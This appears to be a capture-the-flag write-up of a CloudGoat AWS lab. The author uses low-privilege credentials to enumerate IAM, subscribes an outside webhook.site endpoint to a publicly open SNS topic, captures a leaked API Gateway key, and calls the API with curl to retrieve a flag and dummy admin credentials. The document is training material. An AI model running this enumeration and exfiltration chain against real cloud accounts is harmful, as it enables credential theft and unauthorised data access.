




# Challenge Lab Name: `SNS Secrets`
<details open>
<summary><b>Engagement Overview</b></summary>

> **Platform:** `HackSmarter Labs` &nbsp;|&nbsp; **Site:** `hxxps[://]www[.]hacksmarter[.]org`  
>As part of the Hack Smarter Red Team’s new cloud offering, you have been assigned a penetration test focusing on AWS infrastructure. This engagement operates under an **"assumed-breach"** framework.
>
>You will begin with a set of compromised, low-privilege AWS CLI credentials. The client has identified a sensitive internal **API Gateway** as a critical asset. They are concerned that an attacker inside the environment could manipulate permissions to access this resource.
>
>**Objective:** Demonstrate the impact of the breach by escalating privileges to successfully **invoke the restricted API Gateway endpoint**.
>
>_Note: The final flag is contained within the API response body._

</details>

## Detailed Methodology
<details open>
<summary><b>Initial Access & Identity Verification</b></summary>

Using the inital access credentials given, I created an AWS profile by running `aws configure --profile sns` and inserted the access key and secret key, the default region, and default output.

```bash
└─$ aws sts get-caller-identity --profile sns        
{
    "UserId": "AIDA2RLAHWYYHPPTXB7FW",
    "Account": "724440692272",
    "Arn": "arn:aws:iam::724440692272:user/cg-sns-user-lab"
}
```
This output verifies that I have vaild credentials. I confirmed the initial IAM user as `cg-sns-user-lab`. 
### IAM Policy & Permission Enumeration 
There were no managed policies attached to the intiial access IAM user, but there was 1 inline policy found. 

```bash
└─$ aws iam list-user-policies --user-name cg-sns-user-lab --profile sns         
{
    "PolicyNames": [
        "cg-sns-user-policy-lab"
    ]
}
```
### Inline Policy Inspection
```bash
└─$ aws iam get-user-policy --user-name cg-sns-user-lab --profile sns --policy-name cg-sns-user-policy-lab
{
    "UserName": "cg-sns-user-lab",
    "PolicyName": "cg-sns-user-policy-lab",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Action": [
                    "sns:Subscribe",
                    "sns:Receive",
                    "sns:ListSubscriptionsByTopic",
                    "sns:ListTopics",
                    "sns:GetTopicAttributes",
                    "iam:ListGroupsForUser",
                    "iam:ListUserPolicies",
                    "iam:GetUserPolicy",
                    "iam:ListAttachedUserPolicies",
                    "apigateway:GET"
                ],
                "Effect": "Allow",
                "Resource": "*"
            },
            {
                "Action": "apigateway:GET",
                "Effect": "Deny",
                "Resource": [
                    "arn:aws:apigateway:us-east-1::/apikeys",
                    "arn:aws:apigateway:us-east-1::/apikeys/*",
                    "arn:aws:apigateway:us-east-1::/restapis/*/resources/*/methods/GET",
                    "arn:aws:apigateway:us-east-1::/restapis/*/methods/GET",
                    "arn:aws:apigateway:us-east-1::/restapis/*/resources/*/integration",
                    "arn:aws:apigateway:us-east-1::/restapis/*/integration",
                    "arn:aws:apigateway:us-east-1::/restapis/*/resources/*/methods/*/integration"
                ]
            }
        ]
    }
}
```

I can see that the IAM user `cg-sns-user-lab` has a few SNS permissions, including listing topics and subscriptions. 

Another helpful permission is the `apigateway:GET` which means I will be able to read some information about APIs on the AWS account, although the explicit deny statements mean that I am not allowed to directly dump the API keys. 
- Running the AWS CLI command `aws apigateway get-api-keys --include-values` would throw an `AccessDenied` error.
</details>

<details open>
<summary><b>SNS Enumeration & Exploitation</b></summary>

### Topic Discovery & Subscriptions
Since I cannot directly dump API keys, I first searched for SNS Topics published on the AWS account. I found 1 topic, `public-topic-lab`. 

```bash
└─$ aws sns list-topics --region us-east-1 --profile sns
{
    "Topics": [
        {
            "TopicArn": "arn:aws:sns:us-east-1:724440692272:public-topic-lab"
        }
    ]
}
```

I checked to see if there were any subscriptions to the SNS topic found and noticed that the IAM user was not subscribed to the topic. 

```bash
└─$ aws sns list-subscriptions-by-topic --topic-arn arn:aws:sns:us-east-1:724440692272:public-topic-lab --profile sns  
{
    "Subscriptions": []
}
```
### Resource Policy Analysis
I wanted to get more information about the SNS topic so I viewed the resource-based policy and I found an overly permissive trust configuration. 
- The principal `*` allows  anyone to subscribe to the topic (`"sns:Subscribe"`), including public access.

```bash
└─$ aws sns get-topic-attributes --topic-arn arn:aws:sns:us-east-1:724440692272:public-topic-lab --profile sns --query "Attributes.Policy" --output text | jq '.' 
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "sns:Subscribe",
        "sns:Receive",
        "sns:ListSubscriptionsByTopic"
      ],
      "Resource": "arn:aws:sns:us-east-1:724440692272:public-topic-lab"
    }
  ]
}
    
```
### Out-of-Band Listener Setup
Knowing that I had the permsisions to subscribe to the topic. I visited the website `https://webhook.site/`. This website generated a webbook listener, which would allow me to intercept SNS subscription requests and publsihed notifications.  

<div align="center">
  
  <p><em>Viewing the webhook website.</em></p>
</div>

I made sure to copy the unique URL given from the webhook website and paste it to the `--notiication-endpoint` flag when subscribing to the topic. 
```bash
└─$ aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:724440692272:public-topic-lab \ 
    --protocol https \
    --notification-endpoint https://webhook.site/[REDACTED_URL] \ 
    --region us-east-1 \
    --profile sns
{
    "SubscriptionArn": "pending confirmation"
}

```
The output `"SubscriptionArn": "pending confirmation"` lets me know that the subscription is pending confirmation.
- The AWS SNS HTTP/HTTPS subscription requires a handshake. To complete the handshake, I must visit the `SubscribeURL` given. This could also be done in the AWS CLI.
### Handshake Confirmation & Key Interception
Waiting a little and going back to the webhook website showed me the `SubscribeURL` to confirm my subscription to the topic.
<div align="center">
  
  <p><em>Viewing the SubscribeURL on the webhook website.</em></p>
</div>

```bash
{ "Type" : "SubscriptionConfirmation", "MessageId" : "ffbd8144-51c9-44ae-aaf6-bd3a8b641a32", "Token" : "[REDACTIED_TOKEN]", "TopicArn" : "arn:aws:sns:us-east-1:724440692272:public-topic-lab", "Message" : "You have chosen to subscribe to the topic arn:aws:sns:us-east-1:724440692272:public-topic-lab.\nTo confirm the subscription, visit the SubscribeURL included in this message.", "SubscribeURL" : "https://sns.us-east-1.amazonaws.com/?Action=ConfirmSubscription&TopicArn=arn:aws:sns:us-east-1:724440692272:public-topic-lab&Token=[REDACTIED_TOKEN]", "Timestamp" : "2026-09-28T04:58:11.902Z", "SignatureVersion" : "1", "Signature" : "[REDACTED_SIGNATURE]", "SigningCertURL" : "https://sns.us-east-1.amazonaws.com/SimpleNotificationService-1e59c4574facfe41babdb2d652f8ebef.pem" }
```

I confirmed my subscription by navigating to the `SubscribeURL` given. 
<div align="center">
  
  <p><em>Navigating to the SubscribeURL to confirm subscription.</em></p>
</div>

After confirming my subscription and waiting a little I could see on the webhook website that there was another notification sent. This time it was the topic publishing a message to the subscriber. In the message, it contained a `DEBUG API GATEWAY KEY`. 

<div align="center">
  
  <p><em>Viewing a published message on the webhook website, including a Debug API key.</em></p>
</div>

```bash
{ "Type" : "Notification", "MessageId" : "2d21945f-4f56-5a6c-ac93-f76cb8464745", "TopicArn" : "arn:aws:sns:us-east-1:724440692272:public-topic-lab", "Message" : "DEBUG: API GATEWAY KEY [REDACTED_API_KEY]", "Timestamp" : "2026-09-28T05:02:08.470Z", "SignatureVersion" : "1", "Signature" : "[REDACTED_SIGNATURE]", "SigningCertURL" : "https://sns.us-east-1.amazonaws.com/SimpleNotificationService-1e59c4574facfe41babdb2d652f8ebef.pem", "UnsubscribeURL" : "https://sns.us-east-1.amazonaws.com/?Action=Unsubscribe&SubscriptionArn=arn:aws:sns:us-east-1:724440692272:public-topic-lab:b15cf4e0-e2ef-4801-8ffc-66ae725f575e" }
```
</details>

<details open>
<summary><b>API Gateway Reconnaissance & URL Reconstruction</b></summary>

Checking AWS documentation, `https://docs.aws.amazon.com/apigateway/latest/developerguide/how-to-call-api.html`, I was able to find the format to invoke the REST API in API Gateway.

The Invoke URL should follow this format:
```
https://[api-id].execute-api.[region].amazonaws.com/[stage]/[path]
```
### Identify REST API ID 
I enumerated the API Gateway service to reconstruct the URL. 
```bash
└─$ aws apigateway get-rest-apis --profile sns
{
    "items": [
        {
            "id": "p9qgfvp3fl",
            "name": "cg-api-lab",
            "description": "API for demonstrating leaked API key scenario",
            "createdDate": "2026-09-27T20:29:57-07:00",
            "apiKeySource": "HEADER",
            "endpointConfiguration": {
                "types": [
                    "EDGE"
                ],
                "ipAddressType": "ipv4"
            },
            "tags": {
                "Scenario": "iam_privesc_by_key_rotation",
                "Stack": "CloudGoat"
            },
            "disableExecuteApiEndpoint": false,
            "rootResourceId": "g9lbtjtqtg",
            "securityPolicy": "TLS_1_0",
            "apiStatus": "AVAILABLE"
        }
    ]
}
```
The output shows that there is 1 REST API with the  API  ID , `p9qgfvp3fl`. With that, I can enumerate for more information about the REST API found. 
### Verify Active Usage Plans
I needed to make sure that this API ID was active and therefore checked the usage plans. 
```bash
└─$ aws apigateway get-usage-plans --profile sns --region us-east-1
{
    "items": [
        {
            "id": "hi2pzu",
            "name": "cg-usage-plan-lab",
            "apiStages": [
                {
                    "apiId": "p9qgfvp3fl",
                    "stage": "prod-lab"
                }
            ],
            "tags": {
                "Scenario": "iam_privesc_by_key_rotation",
                "Stack": "CloudGoat"
            }
        }
    ]
}
```
The output confirmed that the REST API was active. 
### Identify Resource Path
```bash
└─$ aws apigateway get-resources --rest-api-id p9qgfvp3fl --profile sns 
{
    "items": [
        {
            "id": "e42m0l",
            "parentId": "g9lbtjtqtg",
            "pathPart": "user-data",
            "path": "/user-data",
            "resourceMethods": {
                "GET": {}
            }
        },
        {
            "id": "g9lbtjtqtg",
            "path": "/"
        }
    ]
}
```
This output identifies the  resource route/path, `/user-data`. 
### Identify Stage Name
```bash
└─$ aws apigateway get-stages --rest-api-id p9qgfvp3fl --profile sns 
{
    "item": [
        {
            "deploymentId": "afvte6",
            "stageName": "prod-lab",
            "cacheClusterEnabled": false,
            "cacheClusterStatus": "NOT_AVAILABLE",
            "methodSettings": {},
            "tracingEnabled": false,
            "tags": {
                "Scenario": "iam_privesc_by_key_rotation",
                "Stack": "CloudGoat"
            },
            "createdDate": "2026-09-27T20:29:58-07:00",
            "lastUpdatedDate": "2026-09-27T20:29:58-07:00"
        }
    ]
}
```
This output listed the stage name of the URL, `prod-lab`. 
### Reconstructed Endpoint Target
Using the information found, I inserted it into the format.
- API ID: `p9qgfvp3fl`
- Region: `us-east-1`
- Route/Path: `/user-data`
- Stage name: `prod-lab`

```
https://p9qgfvp3fl.execute-api.us-east-1.amazonaws.com/prod-lab/user-data
```
</details>

<details open>
<summary><b>Exploitation & Exfiltration</b></summary>

After running the curl command, invoking the REST API with the API key found earlier, I got a response back containing sensitive information and the challenge flag. 
```bash
└─$ curl -H "x-api-key: [REDACTED_API_KEY]" https://p9qgfvp3fl.execute-api.us-east-1.amazonaws.com/prod-lab/user-data
{"final_flag":"FLAG{SNS_S3cr3ts_ar3_FUN}","message":"Access granted","user_data":{"email":"SuperAdmin@notarealemail.com","password":"p@ssw0rd123","user_id":"1337","username":"SuperAdmin"}}
```
</details>

<details open>
<summary><b>Impact & Post-Exploitation Potential</b></summary>

There were administrative credentials dumped from this API call which could lead to more findings. Examples of potential impact are full tenant takeover or the credentials could also be resued for third-party services and more.

</details>
